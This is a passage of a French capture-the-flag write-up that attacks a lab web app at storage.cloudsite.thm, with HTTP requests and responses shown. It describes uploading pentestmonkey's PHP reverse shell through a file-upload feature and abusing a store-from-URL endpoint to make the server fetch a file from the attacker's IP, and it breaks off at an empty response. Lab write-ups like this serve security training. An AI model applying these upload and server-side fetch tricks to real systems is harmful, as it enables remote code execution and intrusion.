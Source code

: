 Il créer bien le compte :
```
HTTP/1.1 201 Created
Date: Fri, 14 Mar 2025 16:27:11 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 42
ETag: W/"2a-nMoFx54+czTntmSLXl3mqIsZV4A"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{"message":"User registered successfully"}
```
J'ai accès au site, il permet l'envoi d'un fichier.
Je vais test d'envoyer un shell php, pour cela j'utilise le php-reverse-shell de pentestmonkey.

Il l'envoi bien :
```
HTTP/1.1 200 OK
Date: Fri, 14 Mar 2025 16:32:44 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 100
ETag: W/"64-MzTMvfiAcrg1Kb75vyoKFRU8WmY"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{"message":"Image uploaded successfully","path":"/api/uploads/64ecfb15-711c-486b-afc5-47e0045c602d"}
```
Mais ca télécharge le shell et ne l'execute pas.

On peux aussi upload via une URL :
```
POST /api/store-url HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://storage.cloudsite.thm/dashboard/active
Content-Type: application/json
Content-Length: 38
Origin: http://storage.cloudsite.thm
Connection: keep-alive
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImJsYWJsYUB0ZXN0LmNvbSIsInN1YnNjcmlwdGlvbiI6ImFjdGl2ZSIsImlhdCI6MTc0MTk2OTc1OCwiZXhwIjoxNzQxOTczMzU4fQ.1y3OdontXbJqOngILwBhJ-qz0jQU_kTvZrMdIJIyc3k
Priority: u=0

{"url":"http://10.14.97.127/test.txt"}
```
Résultat : 
```
HTTP/1.1 200 OK
Date: Fri, 14 Mar 2025 16:44:05 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 106
ETag: W/"6a-4yuvrfo2qhGjwt0S/+mVTtgnKMQ"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

```